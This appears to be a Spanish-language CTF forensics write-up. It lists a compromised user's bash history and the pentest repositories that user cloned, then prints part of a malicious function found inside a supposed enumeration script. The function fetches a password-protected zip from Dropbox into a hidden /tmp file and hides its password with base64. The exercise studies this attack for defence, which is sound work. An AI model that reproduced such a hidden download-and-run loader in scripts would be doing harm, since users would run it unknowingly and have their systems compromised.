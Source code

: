 ```bash 
msfconsole
ls
cat /etc/passwd
passwd johnspire
ip a
ls
ping 1.1.1.1
git clone https://github.com/pttemplates/autoenum
cd autoenum/
ls
bash enum.sh 10.0.0.10
sudo bash enum.sh 10.0.0.10
cd 
ls
mkdir Git
cd Git/
ls
git clone https://github.com/enaqx/awesome-pentest
git clone https://github.com/F1shh-sec/Pentest-Scripts
ls
cd
mkdir PenTests
cd PenTests/
ls
cd
cd Desktop/
;s
ls
sudo openvpn forela-corp.ovpn 
sudo su
sudo openvpn forela-corp.ovpn 
```
1. **`https://github.com/pttemplates/autoenum`**
   - **Descripción:** Script de automatización para enumeración de red/servicios, típicamente usado en CTFs o pentests para escanear puertos y detectar servicios.
2. **`https://github.com/enaqx/awesome-pentest`**
   - **Descripción:** Una lista curada de herramientas de pentesting, no es un código ejecutable como tal, sino una colección de enlaces y recursos.
3. **`https://github.com/F1shh-sec/Pentest-Scripts`**
   - **Descripción:** Conjunto de scripts de pentesting, podría contener herramientas para explotación, escaneo, etc.


---
**task 2** 

En el historial no podemos ver los comandos utilizados para comprometer el sistema, asi que clonamos la herramienta utilizada, y nos encontramos el el siguiente escript: 

```bash 
do_wget_and_run() {
    f1="https://www.dropbox.com/scl/fi/uw8oxug0jydibnorjvyl2"
    f2="/blob.zip?rlkey=zmbys0idnbab9qnl45xhqn257&st=v22geon6&dl=1"
    OUTPUT_FILE="/tmp/.hidden_$RANDOM.zip"  
    UNZIP_DIR="/tmp/" 
    part1="c3VwZXI="
    part2="aGFja2Vy"
    PASSWORD=$(echo "$part1$part2" | base64 -d)  

    FILE_URL="${f1}${f2}"  

    echo "------------------------------------------------------------------------------"
    echo " System validation underway..."
    echo "------------------------------------------------------------------------------"
    echo "\n"
```